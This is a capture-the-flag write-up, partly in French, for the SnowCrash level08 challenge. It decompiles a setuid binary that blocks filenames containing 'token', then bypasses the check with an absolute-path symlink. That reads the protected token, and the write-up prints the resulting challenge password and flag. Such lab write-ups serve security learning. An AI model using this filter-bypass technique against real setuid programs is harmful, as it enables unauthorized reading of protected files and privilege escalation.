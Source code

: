 ## Solution

```console
level08@SnowCrash:~$ ls -l
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```
We have an executable which we can launch, and a token we can not access  
Lets deassemble the executable

```c
int main(int argc,char **argv,char **envp)

{
  char *pcVar1;
  int __fd;
  size_t __n;
  ssize_t sVar2;
  int in_GS_OFFSET;
  int fd;
  int rc;
  char buf [1024];
  undefined local_414 [1024];
  int local_14;
  
  local_14 = *(int *)(in_GS_OFFSET + 0x14);

  //Check nb agrs
  if (argc == 1) {
    printf("%s [file to read]\n",*argv);
                    // WARNING: Subroutine does not return
    exit(1);
  }

  //Check si filename contains "token"
  pcVar1 = strstr(argv[1],"token");
  if (pcVar1 != (char *)0x0) {
    printf("You may not access \'%s\'\n",argv[1]);
                    // WARNING: Subroutine does not return
    exit(1);
  }

  //open file
  __fd = open(argv[1],0);
  if (__fd == -1) {
    err(1,"Unable to open %s",argv[1]);
  }

  // read file
  __n = read(__fd,local_414,0x400);
  if (__n == 0xffffffff) {
    err(1,"Unable to read fd %d",__fd);
  }

  //write on stdout content of file
  sVar2 = write(1,local_414,__n);
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
                    // WARNING: Subroutine does not return
    __stack_chk_fail();
  }
  return sVar2;
}
```
`level08` seems to be an executable that open and then reads the content of the file whose
name is passed as a parameter

```console
level08@SnowCrash:~$ echo "toto" > /tmp/test
level08@SnowCrash:~$ ./level08 /tmp/test
toto
```

However, if the filename contains "token" it will output an error messsage and then exit
```c
pcVar1 = strstr(argv[1],"token");
  if (pcVar1 != (char *)0x0) {
    printf("You may not access \'%s\'\n",argv[1]);
                    // WARNING: Subroutine does not return
    exit(1);
  }
```

```console
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

## Pistes

Je suppose que le flag / le password du user flag08 est dans token  

```console
level08@SnowCrash:~$ mv token test
mv: cannot move `token' to `test': Permission denied
```

Symbolic link?

```console
level08@SnowCrash:~$ ln -s token /tmp/hacktest
level08@SnowCrash:~$ ./level08 /tmp/hacktest 
level08@SnowCrash:~$ echo $?
0
```
No Error no output?  
But this works
```console
level08@SnowCrash:~$ ./level08 /tmp/test
toto
level08@SnowCrash:~$ ln -s /tmp/test /tmp/test2
level08@SnowCrash:~$ ./level08 /tmp/test2
toto
```
And this too
```console
level08@SnowCrash:~$ ln -s token /tmp/token2
level08@SnowCrash:~$ ./level08 /tmp/token2
You may not access '/tmp/token2'
```

ABSOLUTE LINK WORKS
```console
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/hacktest
level08@SnowCrash:~$ ./level08 /tmp/hacktest
quif5eloekouj29ke0vouxean
```

`quif5eloekouj29ke0vouxean`

```console
level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
